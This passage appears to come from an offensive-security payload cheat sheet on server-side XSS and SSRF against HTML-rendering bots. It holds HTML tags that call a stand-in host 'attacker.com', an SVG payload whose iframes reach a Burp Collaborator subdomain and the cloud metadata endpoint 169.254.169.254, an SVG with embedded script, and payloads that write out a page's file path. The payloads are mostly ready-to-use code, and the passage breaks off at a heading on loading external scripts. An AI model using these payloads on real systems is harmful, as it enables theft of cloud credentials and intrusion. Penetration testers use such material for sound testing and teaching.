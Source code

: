 ```html
<video src="http://attacker.com" />
<audio src="http://attacker.com" />
<audio><source src="http://attacker.com"/></audio>
<svg src="http://attacker.com" />
```

### SVG

Any of the previous of following payloads may be used inside this SVG payload. One iframe accessing Burpcollab subdomain and another one accessing the metadata endpoint are put as examples.

```html
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
    <g>
        <foreignObject width="800" height="500">
            <body xmlns="http://www.w3.org/1999/xhtml">
                <iframe src="http://redacted.burpcollaborator.net" width="800" height="500"></iframe>
                <iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
            </body>
        </foreignObject>
    </g>
</svg>


<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
  <script type="text/javascript">
    // <![CDATA[
      alert(1);
   // ]]>
  </script>
</svg>
```

You can find a lot **other SVG payloads** in [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

### Path disclosure

```html
<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>
```

### Load an external script
